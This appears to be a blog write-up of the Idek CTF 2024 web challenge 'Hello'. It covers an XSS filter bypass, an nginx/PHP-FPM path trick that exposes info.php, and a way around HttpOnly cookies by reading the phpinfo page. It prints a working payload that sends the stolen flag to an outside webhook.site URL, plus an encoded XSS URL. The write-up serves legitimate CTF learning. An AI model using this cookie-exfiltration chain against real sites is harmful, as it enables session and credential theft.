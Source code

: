 ```yaml
---
layout: post
title: "Idek CTF 2024 - Hello [Web]"
date: 2024-08-18 00:00:00
description: "Idek CTF 2024 - Hello [Web] Writeup"
tag:
  - Web
---
```


After a long hiatus from updating articles, this time an update will cover the writeup for the Web Idek CTF 2024 challenge called 'Hello'. This article is being written because it is considered particularly interesting.

**Challenge Description:**\
`Just to warm you up for the next Fight :"D`
`Note: the admin bot is not on the same machine as the challenge itself and the`
`.chal.idek.team:1337 URL should be used for the admin bot URL`\
`Author: Abdelhameed Ghazy`

[Chall](http://idek-hello.chal.idek.team:1337/)\
[Admin Bot](https://admin-bot.idek.team/idek-hello)\
[Attachments](https://idekctf-challenges.storage.googleapis.com/uploads/f64f1dd16fae27e943a8f7dab349e00509f39c63bb2278328ac5783d867fa393/idek-hello.tar.gz)

**Analysis:**\
Since this challenge is a Whitebox challenge with the provided source code, a source code review must be conducted first. The structure of the provided source code files is as follows:

├── bot.js\
├── docker-compose.yml\
├── hello\
│   ├── Dockerfile\
│   ├── init.sh\
│   ├── nginx.conf\
│   └── src\
│   ├── index.php\
│   └── info.php\
└── tes.md

3 directories, 8 files

Based on the file structure, there is a bot.js file, which likely indicates a typical client-side challenge.

**First Analysis on the bot.js:**

```javascript
...SNIP...
const visit = async () => {
    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: [
                "--no-sandbox",
                "--disable-setuid-sandbox",
                "--js-flags=--noexpose_wasm,--jitless",
            ],
            dumpio: true
        });

        const ctx = await browser.createBrowserContext();

        const page = await ctx.newPage();
        await page.goto(CHALLENGE_ORIGIN, { timeout: 3000 });
        await page.setCookie({ name: 'FLAG', value: 'idek{PLACEHOLDER}', httpOnly: true });
        await page.goto(TARGET_URL, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(5000);

        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
...SNIP...
```

According to the bot.js file, the FLAG is located in the bot’s cookies, which are simulated as Admin user. Given that the FLAG is stored in a cookie, it can be inferred that this is a Cross-site Scripting (XSS) challenge. However, it is important to note that the cookie has the 'httponly' attribute set to 'true'. This means there is protection in place, preventing the stealing of cookies using JavaScript's document.cookie.

Based on an article from [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/), it is possible to bypass HttpOnly and exfiltrate cookies via the PHP Info page.

**Second Analysis on the index.php:**

```php
<?php

function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

In the index.php file, there is a Cross-site Scripting (XSS) vulnerability in the 'name' parameter, which renders user input. However, there is a filter in the Enhanced_Trim function that prevents the use of characters such as '\r', '\n', '\t', '/', and ' ' (spaces) for constructing the XSS payload.

**Third Analysis on the nginx.conf:**

```bash
...SNIP...
location = /info.php {
allow 127.0.0.1;
deny all;
}

location ~ \.php$ {
root    /usr/share/nginx/html;
fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
include fastcgi_params;
fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
...SNIP...
```

In the Nginx configuration file, there is a vulnerability related to unsafe path restrictions to the /info.php endpoint. Without further research, it might seem that the info.php file is not the way to obtain the FLAG in the Admin’s cookies. However, as outlined in the [HackCommander](https://hackcommander.github.io/posts/2022/11/12/bypass-httponly-via-php-info-page/) cookies can be exfiltrated via the PHP Info page, making this page highly valuable. It is also noted that the website is using PHP-FPM..

**How to Solve?**\
From the analysis conducted, the steps to solve the challenge can be outlined as follows:

1. Bypass the Cross-site Scripting (XSS) filter on the /index.php endpoint using the 'name' parameter (http://target/index.php?name=payload)
2. Bypass the unsafe path restriction to gain access to the info.php (http://target/info.php) page
3. Exfiltrate Admin cookies via the PHP Info page

Since the flow is now clear, exploitation can begin immediately.

**Bypass Filter XSS:**

1. Bypass spaces (' ') using the null byte %0, referencing [ctftime](https://ctftime.org/writeup/32720)
2. Bypass slashes ('/') using String.fromCharCode.

**Bypass Path Restriction Nginx PHP-FPM:**

1. Access to /info.php, which should only be allowed from 127.0.0.1, can be bypassed through path manipulation (http://target/info.php/index.php) [sumber](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass)

**Final Payload:**\
Using the discovered bypass techniques, an XSS payload is constructed to steal cookies from the PHP Info page using the following regex:

```javascript
// Convert to decimal
fetch("http://idek-hello.chal.idek.team:1337/info.php/index.php")
  .then((response) => response.text())
  .then((data) => {
    const regex = /idek\{.*?\}/g;
    const matches = data.match(regex);
    if (matches) {
      fetch(
        "https://webhook.site/e9f955cb-6075-43a9-a58a-521db006edcd" +
          "?encodedMatches=" +
          btoa(matches),
        { method: "GET" }
      );
    }
  });

// Final Payload
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=javascript:eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,105,110,100,101,120,46,112,104,112,39,41,46,116,104,101,110,40,114,101,115,112,111,110,115,101,32,61,62,32,114,101,115,112,111,110,115,101,46,116,101,120,116,40,41,41,46,116,104,101,110,40,100,97,116,97,32,61,62,32,123,99,111,110,115,116,32,114,101,103,101,120,32,61,32,47,105,100,101,107,92,123,46,42,63,92,125,47,103,59,99,111,110,115,116,32,109,97,116,99,104,101,115,32,61,32,100,97,116,97,46,109,97,116,99,104,40,114,101,103,101,120,41,59,105,102,32,40,109,97,116,99,104,101,115,41,32,123,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,101,57,102,57,53,53,99,98,45,54,48,55,53,45,52,51,97,57,45,97,53,56,97,45,53,50,49,100,98,48,48,54,101,100,99,100,39,32,43,32,39,63,101,110,99,111,100,101,100,77,97,116,99,104,101,115,61,39,32,43,32,98,116,111,97,40,109,97,116,99,104,101,115,41,44,32,123,32,109,101,116,104,111,100,58,32,39,71,69,84,39,32,125,41,59,125,125,41,59))>
```

Simply send the final payload to the Admin Bot, and the Bot will trigger the payload to exfiltrate the FLAG via the PHP Info page, allowing the flag to be retrieved through the webhook.
![Webhook](/assets/img/Idek-CTF-2024-Hello/flag.png)

**Flag:** idek{Ghazy_N3gm_Elbalad}

Thank you for reading this article, i hope it was helpful :-D\
**Follow me on: [Linkedin], [Medium], [Github], [Youtube], [Instagram]**

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
